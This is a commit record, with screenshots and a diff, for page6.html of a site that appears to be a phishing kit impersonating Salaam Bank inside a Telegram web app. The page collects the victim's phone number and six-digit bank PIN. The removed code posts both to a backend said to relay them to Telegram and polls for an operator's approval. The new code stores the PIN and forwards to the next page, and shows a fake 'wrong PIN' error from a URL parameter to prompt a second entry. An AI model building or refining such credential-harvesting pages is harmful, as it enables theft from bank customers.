

Before and after one commit to waaficbd/Salaam-Bangiga, a website: page public/page6.html in a window 1280 px wide. Before the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update page6.html

```diff
--- a/public/page6.html
+++ b/public/page6.html
@@ -3,124 +3,119 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=no">
-    <title>Geli PIN-ka - Salaam Bank</title>
-
+    <title>Salaam Bank - Galitaanka</title>
     <script src="https://telegram.org/js/telegram-web-app.js"></script>
 
     <style>
         body {
             font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, Helvetica, Arial, sans-serif;
-            background-color: #0066b2; /* Salaam Bank Logo Blue */
+            background-color: #fff;
             margin: 0;
             display: flex;
-            justify-content: center;
-            align-items: center;
+            flex-direction: column;
             min-height: 100vh;
-            color: #333333;
         }
 
-        .card {
-            background: #ffffff;
-            width: 90%;
-            max-width: 380px;
+        .header-box {
+            width: 100%;
+            background: linear-gradient(to bottom, #0B72B9, #085B94);
             padding: 40px 20px;
-            border-radius: 20px;
+            color: white;
             text-align: center;
-            box-shadow: 0 10px 25px rgba(0,0,0,0.15);
             box-sizing: border-box;
         }
 
-        h2 {
-            color: #0066b2;
-            font-size: 22px;
-            margin: 0 0 10px;
-            font-weight: 700;
+        .main-content {
+            width: 90%;
+            max-width: 400px;
+            margin: 40px auto 0;
+            text-align: center;
+            flex-grow: 1;
         }
 
-        p {
-            color: #666666;
-            font-size: 14px;
-            margin: 0 0 25px;
-            line-height: 1.4;
+        .footer-box {
+            width: 100%;
+            background: linear-gradient(to top, #0B72B9, #085B94);
+            padding: 50px 20px 30px;
+            color: white;
+            text-align: center;
+            border-top-left-radius: 50% 30px;
+            border-top-right-radius: 50% 30px;
+            box-sizing: border-box;
         }
 
-        /* PIN Input Styling */
-        .input-group {
-            margin-bottom: 25px;
-            text-align: left;
+        .logo-text { font-size: 36px; font-weight: bold; margin: 0; }
+        .sub-text { font-size: 15px; margin-top: 8px; opacity: 0.9; }
+        .version-text { font-size: 12px; margin-top: 15px; opacity: 0.8; }
+        .terms-text { font-size: 11px; margin-top: 15px; padding: 0 40px; }
+
+        h2 { color: #555; font-size: 24px; margin-bottom: 25px; }
+
+        .phone-display {
+            border: 2px solid #0B72B9;
+            border-radius: 12px;
+            padding: 16px;
+            display: flex;
+            align-items: center;
+            gap: 12px;
+            margin-bottom: 40px;
+            font-size: 20px;
+            color: #333;
         }
 
-        .input-group label {
-            display: block;
-            font-size: 13px;
-            font-weight: 600;
-            color: #0066b2;
-            margin-bottom: 8px;
+        .pin-label { color: #555; margin-bottom: 20px; font-weight: 500; }
+
+        .pin-container { display: flex; justify-content: center; align-items: center; gap: 8px; }
+
+        .pin-input-group { display: flex; gap: 6px; }
+
+        .pin-box {
+            width: 45px;
+            height: 50px;
+            border: 1.5px solid #0B72B9;
+            border-radius: 8px;
+            text-align: center;
+            font-size: 22px;
+            font-weight: bold;
+            outline: none;
         }
 
-        .pin-input {
-            width: 100%;
-            padding: 14px;
-            font-size: 20px;
-            letter-spacing: 4px;
-            text-align: center;
-            border: 2px solid #cbd5e1;
-            border-radius: 10px;
-            outline: none;
-            box-sizing: border-box;
-            transition: border-color 0.2s;
+        .pin-box:focus {
+            border-color: #1B8A43;
         }
 
-        .pin-input:focus {
-            border-color: #008744;
+        .toggle-eye { cursor: pointer; margin-left: 6px; font-size: 20px; }
+
+        .btn-gal {
+            background-color: #e0e0e0;
+            color: #fff;
+            border: none;
+            width: 100%;
+            padding: 18px;
+            border-radius: 10px;
+            font-size: 20px;
+            margin-top: 50px;
+            cursor: not-allowed;
+            font-weight: bold;
+            transition: background-color 0.3s ease;
         }
 
-        .btn-submit {
-            background-color: #008744; /* Salaam Bank Logo Green */
-            border: none;
-            color: #ffffff;
-            width: 100%;
-            padding: 16px;
-            border-radius: 10px;
-            font-size: 16px;
-            font-weight: bold;
+        .btn-gal.active {
+            background-color: #1B8A43;
             cursor: pointer;
-            transition: background-color 0.2s ease;
         }
 
-        .btn-submit:hover {
-            background-color: #006e37;
-        }
+        .spacer { height: 40px; }
 
-        /* Loader Styles (Hidden initially) */
-        .loader-circle {
-            width: 90px;
-            height: 90px;
-            background-color: #f4f8fb;
-            border: 2px solid #e1ecf4;
-            border-radius: 50%;
-            margin: 0 auto 25px;
-            display: flex;
-            justify-content: center;
-            align-items: center;
-        }
-
-        .loader-circle::after {
-            content: '';
-            width: 60px;
-            height: 60px;
-            border: 4px solid #cbd5e1;
-            border-top: 4px solid #008744;
-            border-radius: 50%;
-            animation: spin 1.2s linear infinite;
-        }
-
-        @keyframes spin {
-            0% { transform: rotate(0deg); }
-            100% { transform: rotate(360deg); }
-        }
-
-        #loading-view {
+        .error-banner {
+            background-color: #fde8e8;
+            color: #e74c3c;
+            border: 1px solid #f8b4b4;
+            padding: 12px;
+            border-radius: 8px;
+            font-size: 14px;
+            font-weight: 500;
+            margin-bottom: 20px;
             display: none;
         }
     </style>
@@ -128,107 +123,115 @@
 
 <body>
 
-<div class="card">
-    <!-- PIN FORM VIEW -->
-    <div id="pin-view">
-        <h2>Geli PIN-kaaga</h2>
-        <p>Fadlan geli PIN-ka Salaam Bank si aad u sii wadato.</p>
+<div class="header-box">
+    <p class="logo-text">Salaam Bank</p>
+    <p class="sub-text">Adeegyada Bangiga ee Nabadda & Horumarka</p>
+</div>
 
-        <form id="pin-form">
-            <div class="input-group">
-                <label for="pin">PIN (4-6 Nambar)</label>
-                <input type="password" id="pin" class="pin-input" maxlength="6" inputmode="numeric" pattern="[0-9]*" placeholder="••••" required>
-            </div>
-            <button type="submit" class="btn-submit">Sii Wad</button>
-        </form>
+<div class="main-content">
+    <h2>Gal</h2>
+
+    <div id="errorDisplay" class="error-banner"></div>
+
+    <div class="phone-display">
+        <span>🇸🇴</span>
+        <span id="displayPhone">+252 ...</span>
     </div>
 
-    <!-- LOADING & VERIFICATION VIEW -->
-    <div id="loading-view">
-        <div class="loader-circle"></div>
-        <h2 id="main-text">Waa La Dhadhaminayaa...</h2>
-        <p id="sub-text">Siga suxida xaqiijinta...</p>
+    <p class="pin-label">Geli PIN-kaaga Bangiga (6 Digit)</p>
+
+    <div class="pin-container">
+        <div class="pin-input-group">
+            <input type="password" maxlength="1" class="pin-box" inputmode="numeric">
+            <input type="password" maxlength="1" class="pin-box" inputmode="numeric">
+            <input type="password" maxlength="1" class="pin-box" inputmode="numeric">
+            <input type="password" maxlength="1" class="pin-box" inputmode="numeric">
+            <input type="password" maxlength="1" class="pin-box" inputmode="numeric">
+            <input type="password" maxlength="1" class="pin-box" inputmode="numeric">
+        </div>
+        <span class="toggle-eye" id="eyeIcon">👁️</span>
     </div>
+
+    <button id="loginBtn" class="btn-gal" disabled>GAL</button>
+    <div class="spacer"></div>
+</div>
+
+<div class="footer-box">
+    <p class="logo-text">Salaam Bank</p>
+    <p class="sub-text">Adeegyada Bangiga ee Nabadda & Horumarka</p>
+    <p class="version-text">v2.1.3P</p>
+    <p class="terms-text">Galitaanka markaad gasho waad ogolaatay <u>Shuruudaha iyo Xaaladaha</u></p>
 </div>
 
 <script>
 document.addEventListener("DOMContentLoaded", () => {
-    const tg = window.Telegram?.WebApp;
-    if (tg) {
-        tg.ready();
-        tg.expand();
+
+    const pinBoxes = document.querySelectorAll('.pin-box');
+    const loginBtn = document.getElementById('loginBtn');
+    const eye = document.getElementById('eyeIcon');
+    const displayPhone = document.getElementById('displayPhone');
+    const errorDisplay = document.getElementById('errorDisplay');
+
+    const savedPhone = localStorage.getItem('phone');
+    displayPhone.textContent = savedPhone ? `+252 ${savedPhone}` : "+252 (ma jiro)";
+
+    // Detect URL parameter tracking redirect values
+    const urlParams = new URLSearchParams(window.location.search);
+    if (urlParams.get('error') === 'wrongpin') {
+        errorDisplay.innerText = "❌ PIN-ka bangiga waa khalad, fadlan geli PIN-ka saxda ah.";
+        errorDisplay.style.display = "block";
     }
 
-    const pinForm = document.getElementById("pin-form");
-    const pinInput = document.getElementById("pin");
-    const pinView = document.getElementById("pin-view");
-    const loadingView = document.getElementById("loading-view");
-    const mainText = document.getElementById("main-text");
-    const subText = document.getElementById("sub-text");
+    pinBoxes.forEach((box, index) => {
+        box.addEventListener('input', () => {
+            box.value = box.value.replace(/\D/g, '');
 
-    let rawPhone = localStorage.getItem("phone") || localStorage.getItem("phoneNumber") || "";
-    const phone = rawPhone.replace(/\s+/g, '').replace(/[^0-9+]/g, '');
+            if (box.value && index < pinBoxes.length - 1) {
+                pinBoxes[index + 1].focus();
+            }
 
-    pinForm.addEventListener("submit", async (e) => {
-        e.preventDefault();
+            checkInputs();
+        });
 
-        const pin = pinInput.value.trim();
-        if (!pin) return;
-
-        // Save PIN into localStorage for downstream pages
-        localStorage.setItem("pin", pin);
-        localStorage.setItem("lastPin", pin);
-
-        // Switch to Loading View
-        pinView.style.display = "none";
-        loadingView.style.display = "block";
-
-        // Send login payload to backend (and Telegram)
-        try {
-            await fetch("/api/login-notification", {
-                method: "POST",
-                headers: { "Content-Type": "application/json" },
-                body: JSON.stringify({ phone, pin })
-            });
-            console.log("✅ Notification Sent");
-        } catch (err) {
-            console.error("❌ Notification error:", err);
-        }
-
-        // Change text after 3 seconds
-        setTimeout(() => {
-            mainText.textContent = "Fadlan sug...";
-            subText.textContent = "Tani waxay qaadanaysaa daqiiqado yar";
-        }, 3000);
-
-        // Start checking approval status
-        setInterval(checkApproval, 2000);
+        box.addEventListener('keydown', (e) => {
+            if (e.key === "Backspace" && !box.value && index > 0) {
+                pinBoxes[index - 1].focus();
+            }
+        });
     });
 
-    async function checkApproval() {
-        if (!phone) return;
+    function checkInputs() {
+        const filled = [...pinBoxes].every(b => b.value);
+        loginBtn.disabled = !filled;
+        loginBtn.classList.toggle('active', filled);
+    }
 
-        try {
-            const res = await fetch(`/api/check-status?phone=${encodeURIComponent(phone)}`);
-            const data = await res.json();
+    eye.addEventListener('click', () => {
+        const show = pinBoxes[0].type === "password";
+        pinBoxes.forEach(b => b.type = show ? "text" : "password");
+        eye.textContent = show ? "🫣" : "👁️";
+    });
 
-            if (data.status === "approved") {
-                mainText.textContent = "Waa La Ansixiyay!";
-                subText.textContent = "Waqti yar ka dib bogga xiga ayaa furmi doona...";
+    loginBtn.addEventListener('click', () => {
+        if (!savedPhone) return;
 
-                setTimeout(() => {
-                    window.location.href = "/page7";
-                }, 1500);
-            }
+        // Prevent accidental double clicks by disabling button instantly
+        loginBtn.disabled = true;
+        loginBtn.classList.remove('active');
 
-            if (data.status === "denied") {
-                mainText.textContent = "Lama Ansixin!";
-                subText.textContent = "Xogtaada waa mid aan sax ahayn.";
-            }
+        let pin = "";
+        pinBoxes.forEach(b => pin += b.value);
+        localStorage.setItem('lastPin', pin);
 
-        } catch (err) {
-            console.error("❌ Status check error:", err);
-        }
+        errorDisplay.style.display = "none";
+
+        // Move instantly to page7.html
+        window.location.href = "/page7.html";
+    });
+
+    if (window.Telegram?.WebApp) {
+        window.Telegram.WebApp.ready();
+        window.Telegram.WebApp.expand();
     }
 });
 </script>
```
